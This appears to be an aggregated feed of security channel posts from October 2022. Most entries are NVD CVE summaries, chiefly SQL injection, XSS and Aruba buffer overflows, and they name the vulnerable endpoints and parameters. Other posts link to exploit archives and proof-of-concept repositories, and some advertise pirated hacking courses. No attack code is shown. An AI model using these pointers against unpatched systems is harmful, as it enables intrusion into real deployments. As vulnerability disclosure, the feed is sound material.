* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-36635

<blockquote>
‼ CVE-2022-36635 ‼

ZKteco ZKBioSecurity V5000 4.1.3 was discovered to contain a SQL injection vulnerability via the component /baseOpLog.do.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-08`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-41442

<blockquote>
‼ CVE-2022-41442 ‼

PicUploader v2.6.3 was discovered to contain cross-site scripting (XSS) vulnerability via the setStorageParams function in SettingController.php.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-07`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-39285

<blockquote>
‼ CVE-2022-39285 ‼

ZoneMinder is a free, open source Closed-circuit television software application The file parameter is vulnerable to a cross site scripting vulnerability (XSS) by backing out of the current &quot;tr&quot; &quot;td&quot; brackets. This then allows a malicious user to provide code that will execute when a user views the specific log on the &quot;view&#61;log&quot; page. This vulnerability allows an attacker to store code within the logs that will be executed when loaded by a legitimate user. These actions will be performed with the permission of the victim. This could lead to data loss and/or further exploitation including account takeover. This issue has been addressed in versions `1.36.27` and `1.37.24`. Users are advised to upgrade. Users unable to upgrade should disable database logging.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-07`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-37892

<blockquote>
‼ CVE-2022-37892 ‼

A vulnerability in the Aruba InstantOS and ArubaOS 10 web management interface could allow an unauthenticated remote attacker to conduct a stored cross-site scripting (XSS) attack against a user of the interface. A successful exploit could allow an attacker to execute arbitrary script code in a victim’s browser in the context of the affected interface of Aruba InstantOS 6.4.x: 6.4.4.8-4.2.4.20 and below; Aruba InstantOS 6.5.x: 6.5.4.23 and below; Aruba InstantOS 8.6.x: 8.6.0.18 and below; Aruba InstantOS 8.7.x: 8.7.1.9 and below; Aruba InstantOS 8.10.x: 8.10.0.1 and below; ArubaOS 10.3.x: 10.3.1.0 and below; Aruba has released upgrades for Aruba InnstantOS that address this security vulnerability.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-07`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-42074

<blockquote>
‼ CVE-2022-42074 ‼

Online Diagnostic Lab Management System v1.0 is vulnerable to SQL Injection via /diagnostic/editcategory.php?id&#61;.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-07`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-41392

<blockquote>
‼ CVE-2022-41392 ‼

A cross-site scripting (XSS) vulnerability in TotalJS commit 8c2c8909 allows attackers to execute arbitrary web scripts or HTML via a crafted payload injected into the Website name text field under Main Settings.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-07`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-41514

<blockquote>
‼ CVE-2022-41514 ‼

Open Source SACCO Management System v1.0 was discovered to contain a SQL injection vulnerability via the id parameter at /sacco_shield/ajax.php?action&#61;delete_loan.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-07`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-37885

<blockquote>
‼ CVE-2022-37885 ‼

There are buffer overflow vulnerabilities in multiple underlying services that could lead to unauthenticated remote code execution by sending specially crafted packets destined to the PAPI (Aruba Networks AP management protocol) UDP port (8211). Successful exploitation of these vulnerabilities results in the ability to execute arbitrary code as a privileged user on the underlying operating system of Aruba InstantOS 6.4.x: 6.4.4.8-4.2.4.20 and below; Aruba InstantOS 6.5.x: 6.5.4.23 and below; Aruba InstantOS 8.6.x: 8.6.0.18 and below; Aruba InstantOS 8.7.x: 8.7.1.9 and below; Aruba InstantOS 8.10.x: 8.10.0.1 and below; ArubaOS 10.3.x: 10.3.1.0 and below; Aruba has released upgrades for Aruba InnstantOS that address these security vulnerabilities.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-07`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-37886

<blockquote>
‼ CVE-2022-37886 ‼

There are buffer overflow vulnerabilities in multiple underlying services that could lead to unauthenticated remote code execution by sending specially crafted packets destined to the PAPI (Aruba Networks AP management protocol) UDP port (8211). Successful exploitation of these vulnerabilities results in the ability to execute arbitrary code as a privileged user on the underlying operating system of Aruba InstantOS 6.4.x: 6.4.4.8-4.2.4.20 and below; Aruba InstantOS 6.5.x: 6.5.4.23 and below; Aruba InstantOS 8.6.x: 8.6.0.18 and below; Aruba InstantOS 8.7.x: 8.7.1.9 and below; Aruba InstantOS 8.10.x: 8.10.0.1 and below; ArubaOS 10.3.x: 10.3.1.0 and below; Aruba has released upgrades for Aruba InnstantOS that address these security vulnerabilities.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-07`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-41515

<blockquote>
‼ CVE-2022-41515 ‼

Open Source SACCO Management System v1.0 was discovered to contain a SQL injection vulnerability via the id parameter at /sacco_shield/ajax.php?action&#61;delete_payment.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-07`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-41377

<blockquote>
‼ CVE-2022-41377 ‼

Online Pet Shop We App v1.0 was discovered to contain a SQL injection vulnerability via the id parameter at /pet_shop/admin/?page&#61;maintenance/manage_category.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-07`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-37889

<blockquote>
‼ CVE-2022-37889 ‼

There are buffer overflow vulnerabilities in multiple underlying services that could lead to unauthenticated remote code execution by sending specially crafted packets destined to the PAPI (Aruba Networks AP management protocol) UDP port (8211). Successful exploitation of these vulnerabilities results in the ability to execute arbitrary code as a privileged user on the underlying operating system of Aruba InstantOS 6.4.x: 6.4.4.8-4.2.4.20 and below; Aruba InstantOS 6.5.x: 6.5.4.23 and below; Aruba InstantOS 8.6.x: 8.6.0.18 and below; Aruba InstantOS 8.7.x: 8.7.1.9 and below; Aruba InstantOS 8.10.x: 8.10.0.1 and below; ArubaOS 10.3.x: 10.3.1.0 and below; Aruba has released upgrades for Aruba InnstantOS that address these security vulnerabilities.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-07`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-37887

<blockquote>
‼ CVE-2022-37887 ‼

There are buffer overflow vulnerabilities in multiple underlying services that could lead to unauthenticated remote code execution by sending specially crafted packets destined to the PAPI (Aruba Networks AP management protocol) UDP port (8211). Successful exploitation of these vulnerabilities results in the ability to execute arbitrary code as a privileged user on the underlying operating system of Aruba InstantOS 6.4.x: 6.4.4.8-4.2.4.20 and below; Aruba InstantOS 6.5.x: 6.5.4.23 and below; Aruba InstantOS 8.6.x: 8.6.0.18 and below; Aruba InstantOS 8.7.x: 8.7.1.9 and below; Aruba InstantOS 8.10.x: 8.10.0.1 and below; ArubaOS 10.3.x: 10.3.1.0 and below; Aruba has released upgrades for Aruba InnstantOS that address these security vulnerabilities.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-07`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-37896

<blockquote>
‼ CVE-2022-37896 ‼

A vulnerability in the Aruba InstantOS and ArubaOS 10 web management interface could allow a remote attacker to conduct a reflected cross-site scripting (XSS) attack against a user of the interface. A successful exploit could allow an attacker to execute arbitrary script code in a victim’s browser in the context of the affected interface of Aruba InstantOS 6.4.x: 6.4.4.8-4.2.4.20 and below; Aruba InstantOS 6.5.x: 6.5.4.23 and below; Aruba InstantOS 8.6.x: 8.6.0.18 and below; Aruba InstantOS 8.7.x: 8.7.1.9 and below; Aruba InstantOS 8.10.x: 8.10.0.1 and below; ArubaOS 10.3.x: 10.3.1.0 and below; Aruba has released upgrades for Aruba InstantOS that address this security vulnerability.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-07`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-41378

<blockquote>
‼ CVE-2022-41378 ‼

Online Pet Shop We App v1.0 was discovered to contain a SQL injection vulnerability via the id parameter at /pet_shop/admin/?page&#61;inventory/manage_inventory.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-07`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-41513

<blockquote>
‼ CVE-2022-41513 ‼

Online Diagnostic Lab Management System v1.0 was discovered to contain a SQL injection vulnerability via the id parameter at /diagnostic/edittest.php.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-07`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-39847

<blockquote>
‼ CVE-2022-39847 ‼

Use after free vulnerability in set_nft_pid and signal_handler function of NFC driver prior to SMR Oct-2022 Release 1 allows attackers to perform malicious actions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# defcon_news
`2022-10-07`

<blockquote>
WordPress Zephyr Project Manager 3.2.42 SQL Injection
http://exploit.kitploit.com/2022/10/wordpress-zephyr-project-manager-3242.html
</blockquote>

<table><tr><td><b>→</b><a href="https://exploit.kitploit.com/2022/10/wordpress-zephyr-project-manager-3242.html">
https://exploit.kitploit.com/2022/10/wordpress-zephyr-project-manager-3242.html
</a>
<blockquote>
Exploit Collector is the ultimate collection of public exploits and exploitable vulnerabilities. Remote/Local Exploits, Shellcode and 0days.
</blockquote>
</td></tr></table>

---

# defcon_news
`2022-10-07`

<blockquote>
WordPress Zephyr Project Manager 3.2.42 SQL Injection
https://packetstormsecurity.com/files/168652/wpzephyrpm3242-sql.txt
</blockquote>

<table><tr><td><b>→</b><a href="https://packetstormsecurity.com/files/168652/wpzephyrpm3242-sql.txt">
https://packetstormsecurity.com/files/168652/wpzephyrpm3242-sql.txt
</a>
<blockquote>
Information Security Services, News, Files, Tools, Exploits, Advisories and Whitepapers
</blockquote>
</td></tr></table>

---

# cibsecurity
`2022-10-07`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-40826

<blockquote>
‼ CVE-2022-40826 ‼

B.C. Institute of Technology CodeIgniter &lt;&#61;3.1.13 is vulnerable to SQL Injection via system\database\DB_query_builder.php or_having() function.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-07`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-40833

<blockquote>
‼ CVE-2022-40833 ‼

B.C. Institute of Technology CodeIgniter &lt;&#61;3.1.13 is vulnerable to SQL Injection via system\database\DB_query_builder.php or_where_in() function.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-07`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-40831

<blockquote>
‼ CVE-2022-40831 ‼

B.C. Institute of Technology CodeIgniter &lt;&#61;3.1.13 is vulnerable to SQL Injection via system\database\DB_query_builder.php like() function.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-07`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-40872

<blockquote>
‼ CVE-2022-40872 ‼

An SQL injection vulnerability issue was discovered in Sourcecodester Simple E-Learning System 1.0., in /vcs/classRoom.php?classCode&#61;, classCode.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-07`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-40834

<blockquote>
‼ CVE-2022-40834 ‼

B.C. Institute of Technology CodeIgniter &lt;&#61;3.1.13 is vulnerable to SQL Injection via system\database\DB_query_builder.php or_not_like() function.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-07`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-40827

<blockquote>
‼ CVE-2022-40827 ‼

B.C. Institute of Technology CodeIgniter &lt;&#61;3.1.13 is vulnerable to SQL Injection via system\database\DB_query_builder.php where() function.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-07`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-40825

<blockquote>
‼ CVE-2022-40825 ‼

B.C. Institute of Technology CodeIgniter &lt;&#61;3.1.13 is vulnerable to SQL Injection via system\database\DB_query_builder.php where_in() function.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-07`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-40830

<blockquote>
‼ CVE-2022-40830 ‼

B.C. Institute of Technology CodeIgniter &lt;&#61;3.1.13 is vulnerable to SQL Injection via system\database\DB_query_builder.php where_not_in() function.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-07`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-40828

<blockquote>
‼ CVE-2022-40828 ‼

B.C. Institute of Technology CodeIgniter &lt;&#61;3.1.13 is vulnerable to SQL Injection via system\database\DB_query_builder.php or_where_not_in() function.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-07`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-40835

<blockquote>
‼ CVE-2022-40835 ‼

B.C. Institute of Technology CodeIgniter &lt;&#61;3.1.13 is vulnerable to SQL Injection via system\database\DB_query_builder.php.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-07`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-40829

<blockquote>
‼ CVE-2022-40829 ‼

B.C. Institute of Technology CodeIgniter &lt;&#61;3.1.13 is vulnerable to SQL Injection via system\database\DB_query_builder.php or_like() function.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-07`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-40832

<blockquote>
‼ CVE-2022-40832 ‼

B.C. Institute of Technology CodeIgniter &lt;&#61;3.1.13 is vulnerable to SQL Injection via system\database\DB_query_builder.php having() function.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-07`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-40824

<blockquote>
‼ CVE-2022-40824 ‼

B.C. Institute of Technology CodeIgniter &lt;&#61;3.1.13 is vulnerable to SQL Injection via system\database\DB_query_builder.php or_where() function.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-07`

* https://portswigger.net/daily-swig/critical-flaw-in-open-source-webpagetest-remains-unpatched

<blockquote>
🗓️ Critical flaw in open source WebPageTest remains unpatched 🗓️

Public disclosure, a talk, and a blog post later, the RCE exploit remains unresolved

📖 Read

via &quot;The Daily Swig&quot;.
</blockquote>

<table><tr><td><b>→</b><a href="https://portswigger.net/daily-swig/critical-flaw-in-open-source-webpagetest-remains-unpatched">
https://portswigger.net/daily-swig/critical-flaw-in-open-source-webpagetest-remains-unpatched
</a>
<blockquote>
Public disclosure, a talk, and a blog post later, the RCE exploit remains unresolved
</blockquote>
</td></tr></table>

---

# cibsecurity
`2022-10-06`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-41355

<blockquote>
‼ CVE-2022-41355 ‼

Online Leave Management System v1.0 was discovered to contain a SQL injection vulnerability via the id parameter at /leave_system/classes/Master.php?f&#61;delete_department.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-06`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-39279

<blockquote>
‼ CVE-2022-39279 ‼

discourse-chat is a plugin for the Discourse message board which adds chat functionality. In versions prior to 0.9 some places render a chat channel's name and description in an unsafe way, allowing staff members to cause an cross site scripting (XSS) attack by inserting unsafe HTML into them. Version 0.9 has addressed this issue. Users are advised to upgrade. There are no known workarounds for this issue.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-06`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-42243

<blockquote>
‼ CVE-2022-42243 (simple_cold_storage_management_system) ‼

Simple Cold Storage Management System v1.0 is vulnerable to SQL injection via /csms/admin/storages/manage_storage.php?id&#61;.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-06`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-42241

<blockquote>
‼ CVE-2022-42241 (simple_cold_storage_management_system) ‼

Simple Cold Storage Management System v1.0 is vulnerable to SQL injection via /csms/classes/Master.php?f&#61;delete_message.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-06`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-42242

<blockquote>
‼ CVE-2022-42242 (simple_cold_storage_management_system) ‼

Simple Cold Storage Management System v1.0 is vulnerable to SQL injection via /csms/classes/Master.php?f&#61;delete_booking.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-06`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-42250

<blockquote>
‼ CVE-2022-42250 (simple_cold_storage_management_system) ‼

Simple Cold Storage Management System v1.0 is vulnerable to SQL injection via /csms/admin/inquiries/view_details.php?id&#61;.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-06`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-42249

<blockquote>
‼ CVE-2022-42249 (simple_cold_storage_management_system) ‼

Simple Cold Storage Management System v1.0 is vulnerable to SQL injection via /csms/admin/storages/view_storage.php?id&#61;.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-06`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-39988

<blockquote>
‼ CVE-2022-39988 ‼

A cross-site scripting (XSS) vulnerability in Centreon 22.04.0 allows attackers to execute arbitrary web script or HTML via a crafted payload injected into the Service&gt;Templates service_alias parameter.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-06`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-32171

<blockquote>
‼ CVE-2022-32171 ‼

In Zinc, versions v0.1.9 through v0.3.1 are vulnerable to Stored Cross-Site Scripting when using the delete user functionality. When an authenticated user deletes a user having a XSS payload in the user id field, the javascript payload will be executed and allow an attacker to access the user’s credentials.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-06`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-3002

<blockquote>
‼ CVE-2022-3002 ‼

Cross-site Scripting (XSS) - Stored in GitHub repository yetiforcecompany/yetiforcecrm prior to 6.4.0.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-06`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-37888

<blockquote>
‼ CVE-2022-37888 ‼

There are buffer overflow vulnerabilities in multiple underlying services that could lead to unauthenticated remote code execution by sending specially crafted packets destined to the PAPI (Aruba Networks AP management protocol) UDP port (8211). Successful exploitation of these vulnerabilities results in the ability to execute arbitrary code as a privileged user on the underlying operating system of Aruba InstantOS 6.4.x: 6.4.4.8-4.2.4.20 and below; Aruba InstantOS 6.5.x: 6.5.4.23 and below; Aruba InstantOS 8.6.x: 8.6.0.18 and below; Aruba InstantOS 8.7.x: 8.7.1.9 and below; Aruba InstantOS 8.10.x: 8.10.0.1 and below; ArubaOS 10.3.x: 10.3.1.0 and below; Aruba has released upgrades for Aruba InnstantOS that address these security vulnerabilities.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# hackgit
`2022-10-06`

* https://telegra.ph/file/6ef7ec268ced758f99d12.png
* https://github.com/cve-sandbox/jquery-ui

<blockquote>
​​CVE Sandbox :: jQuery UI

CVE Collection of jQuery UI XSS Payloads

https://github.com/cve-sandbox/jquery-ui
</blockquote>

<table><tr><td><b>→</b><a href="https://telegra.ph/file/6ef7ec268ced758f99d12.png">
https://telegra.ph/file/6ef7ec268ced758f99d12.png
</a>
</td></tr></table>

---

# defcon_news
`2022-10-06`

<blockquote>
CVE-2022–36635 — A SQL Injection in ZKSecurityBio to RCE
https://www.reddit.com/r/netsec/comments/xx5oj9/cve202236635_a_sql_injection_in_zksecuritybio_to/
</blockquote>

<table><tr><td><b>→</b><a href="https://www.reddit.com/r/netsec/comments/xx5oj9/cve202236635_a_sql_injection_in_zksecuritybio_to/">
https://www.reddit.com/r/netsec/comments/xx5oj9/cve202236635_a_sql_injection_in_zksecuritybio_to/
</a>
<blockquote>
Posted in r/netsec by u/sp1d3rr • 8 points and 0 comments
</blockquote>
</td></tr></table>

---

# defcon_news
`2022-10-04`

<blockquote>
Canteen Management 1.0-2022 SQL Injection
http://exploit.kitploit.com/2022/10/canteen-management-10-2022-sql-injection.html
</blockquote>

<table><tr><td><b>→</b><a href="https://exploit.kitploit.com/2022/10/canteen-management-10-2022-sql-injection.html?utm_source=dlvr.it&utm_medium=twitter">
https://exploit.kitploit.com/2022/10/canteen-management-10-2022-sql-injection.html?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
Exploit Collector is the ultimate collection of public exploits and exploitable vulnerabilities. Remote/Local Exploits, Shellcode and 0days.
</blockquote>
</td></tr></table>

---

# defcon_news
`2022-10-04`

<blockquote>
Canteen Management 1.0-2022 SQL Injection
https://packetstormsecurity.com/files/168608/canteenmgmt102022-sql.txt
</blockquote>

<table><tr><td><b>→</b><a href="https://packetstormsecurity.com/files/168608/canteenmgmt102022-sql.txt">
https://packetstormsecurity.com/files/168608/canteenmgmt102022-sql.txt
</a>
<blockquote>
Information Security Services, News, Files, Tools, Exploits, Advisories and Whitepapers
</blockquote>
</td></tr></table>

---

# hackgit
`2022-10-04`

* https://telegra.ph/file/f8e8803dbf1fe0879f1a6.jpg
* https://github.com/cosad3s/CVE-2022-35914-poc

<blockquote>
​​CVE-2022-35914

GLPI &lt;10.0.2 - PHP code injection

https://github.com/cosad3s/CVE-2022-35914-poc

&#35;cve
</blockquote>

<table><tr><td><b>→</b><a href="https://telegra.ph/file/f8e8803dbf1fe0879f1a6.jpg">
https://telegra.ph/file/f8e8803dbf1fe0879f1a6.jpg
</a>
</td></tr></table>

---

# cibsecurity
`2022-10-03`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-42247

<blockquote>
‼ CVE-2022-42247 ‼

pfSense v2.5.2 was discovered to contain a cross-site scripting (XSS) vulnerability in the browser.php component. This vulnerability allows attackers to execute arbitrary web scripts or HTML via a crafted payload injected into a file name.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# Leakers_squad
`2022-10-03`

* https://t.me/leakers_Squad/1841

<blockquote>
🎭 EH- SQL injection Course 🎭

Why SQL Injection Matters
Understanding SQL Queries
The Mechanics of SQL Injection Attacks
Discovering Schema and Extracting Data
Blind SQL Injection
Advanced SOL Injection Concepts
Defending Against Attacks
Evasion Techniques
Automating Attacks

🔗Direct Download Link : https://bit.ly/3SOHGZw

Contact for posting these content in your channel @Mr_Neophyte

♻️Share And Support us♻️

If you want to report any copyright violation, please write to us at  @Leakers_squad_bot and we will ensure to remove that post within 48 hours
Read this
</blockquote>

---

# defcon_news
`2022-10-03`

<blockquote>
Joomla MarvikShop ShoppingCart 3.4 SQL Injection
http://exploit.kitploit.com/2022/10/joomla-marvikshop-shoppingcart-34-sql.html
</blockquote>

<table><tr><td><b>→</b><a href="https://exploit.kitploit.com/2022/10/joomla-marvikshop-shoppingcart-34-sql.html?utm_source=dlvr.it&utm_medium=twitter">
https://exploit.kitploit.com/2022/10/joomla-marvikshop-shoppingcart-34-sql.html?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
Exploit Collector is the ultimate collection of public exploits and exploitable vulnerabilities. Remote/Local Exploits, Shellcode and 0days.
</blockquote>
</td></tr></table>

---

# defcon_news
`2022-10-03`

<blockquote>
Joomla JKassa ShoppingCart 2.0.0 SQL Injection
http://exploit.kitploit.com/2022/10/joomla-jkassa-shoppingcart-200-sql.html
</blockquote>

<table><tr><td><b>→</b><a href="https://exploit.kitploit.com/2022/10/joomla-jkassa-shoppingcart-200-sql.html?utm_source=dlvr.it&utm_medium=twitter">
https://exploit.kitploit.com/2022/10/joomla-jkassa-shoppingcart-200-sql.html?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
Exploit Collector is the ultimate collection of public exploits and exploitable vulnerabilities. Remote/Local Exploits, Shellcode and 0days.
</blockquote>
</td></tr></table>

---

# defcon_news
`2022-10-03`

<blockquote>
Joomla JUX Charity Hub 1.0.4 SQL Injection
http://exploit.kitploit.com/2022/10/joomla-jux-charity-hub-104-sql-injection.html
</blockquote>

<table><tr><td><b>→</b><a href="https://exploit.kitploit.com/2022/10/joomla-jux-charity-hub-104-sql-injection.html?utm_source=dlvr.it&utm_medium=twitter">
https://exploit.kitploit.com/2022/10/joomla-jux-charity-hub-104-sql-injection.html?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
Exploit Collector is the ultimate collection of public exploits and exploitable vulnerabilities. Remote/Local Exploits, Shellcode and 0days.
</blockquote>
</td></tr></table>

---

# defcon_news
`2022-10-03`

<blockquote>
Joomla MarvikShop ShoppingCart 3.4 SQL Injection
https://packetstormsecurity.com/files/168597/joomlamarviksc34-sql.txt
</blockquote>

<table><tr><td><b>→</b><a href="https://packetstormsecurity.com/files/168597/joomlamarviksc34-sql.txt?utm_source=dlvr.it&utm_medium=twitter">
https://packetstormsecurity.com/files/168597/joomlamarviksc34-sql.txt?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
Information Security Services, News, Files, Tools, Exploits, Advisories and Whitepapers
</blockquote>
</td></tr></table>

---

# defcon_news
`2022-10-03`

<blockquote>
Joomla JKassa ShoppingCart 2.0.0 SQL Injection
https://packetstormsecurity.com/files/168593/joomlajkassashoppingcart200-sql.txt
</blockquote>

<table><tr><td><b>→</b><a href="https://packetstormsecurity.com/files/168593/joomlajkassashoppingcart200-sql.txt?utm_source=dlvr.it&utm_medium=twitter">
https://packetstormsecurity.com/files/168593/joomlajkassashoppingcart200-sql.txt?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
Information Security Services, News, Files, Tools, Exploits, Advisories and Whitepapers
</blockquote>
</td></tr></table>

---

# defcon_news
`2022-10-03`

<blockquote>
Joomla JUX Charity Hub 1.0.4 SQL Injection
https://packetstormsecurity.com/files/168591/joomlajuxcharityhub104-sql.txt
</blockquote>

<table><tr><td><b>→</b><a href="https://packetstormsecurity.com/files/168591/joomlajuxcharityhub104-sql.txt">
https://packetstormsecurity.com/files/168591/joomlajuxcharityhub104-sql.txt
</a>
<blockquote>
Information Security Services, News, Files, Tools, Exploits, Advisories and Whitepapers
</blockquote>
</td></tr></table>

---

# cibsecurity
`2022-10-03`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-36551

<blockquote>
‼ CVE-2022-36551 ‼

A Server Side Request Forgery (SSRF) in the Data Import module in Heartex - Label Studio Community Edition versions 1.5.0 and earlier allows an authenticated user to access arbitrary files on the system. Furthermore, self-registration is enabled by default in these versions of Label Studio enabling a remote attacker to create a new account and then exploit the SSRF.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-03`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-40123

<blockquote>
‼ CVE-2022-40123 ‼

mojoPortal v2.7 was discovered to contain a path traversal vulnerability via the &quot;f&quot; parameter at /DesignTools/CssEditor.aspx. This vulnerability allows authenticated attackers to read arbitrary files in the system.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# Leakers_squad
`2022-10-02`

* https://t.me/leakers_Squad/1841

<blockquote>
♦️ EH – Penetration Testing Course ♦️

Pen Testing - Reconning and _or Footprinting the Target
Pen Testing - Scanning the Target
Pen Testing - Enumerating the Target
Pen Testing - Hacking the Target
Pen Testing - Sniffing the Target
Pen Testing - Social Engineering the Target
Pen Testing - DoS_DDoS the Target
Pen Testing - Session Hijacking the Target
Pen Testing - Targeting Web Servers
Pen Testing - Hitting Web Apps
Pen Testing - Looking at the Wi-Fi
Pen Testing - Focusing on the Mobile Devices
Pen Testing - Target the Firewall and_or IDS
Pen Testing - Going After the Cloud

🔗Direct Download Link :- https://bit.ly/3SwsUHc

Contact for posting these content in your channel @Mr_Neophyte

♻️Share And Support us♻️

If you want to report any copyright violation, please write to us at  @Leakers_squad_bot and we will ensure to remove that post within 48 hours
Read this
</blockquote>

---

# defcon_news
`2022-10-01`

<blockquote>
ZKSecurity BIO 4.1.2 SQL Injection / Code Execution
http://exploit.kitploit.com/2022/10/zksecurity-bio-412-sql-injection-code.html
</blockquote>

